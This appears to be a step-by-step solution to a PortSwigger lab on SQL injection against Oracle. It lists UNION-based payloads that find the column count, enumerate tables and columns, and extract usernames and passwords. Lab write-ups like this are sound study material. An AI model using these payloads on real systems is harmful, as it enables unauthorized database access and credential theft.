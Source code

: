 # SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Step - 1
--------
'
-
Error
Single Quotes

Step - 2
--------
'--
---
No MySQL

Step - 3
--------
' ORDER BY 3--
--------------
Error
2 Column

Step - 4
--------
' UNION SELECT 'a','a' FROM dual--
----------------------------------
2 String Column

Step - 5
--------
' UNION SELECT 'a',table_name FROM all_tables--
-----------------------------------------------
Table: USERS_JASUOU

Step - 6
--------
' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--
-------------------------------------------------------------------------------------
Column: USERNAME_GSFFNH and PASSWORD_DITWXL

Step - 7
--------
' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--
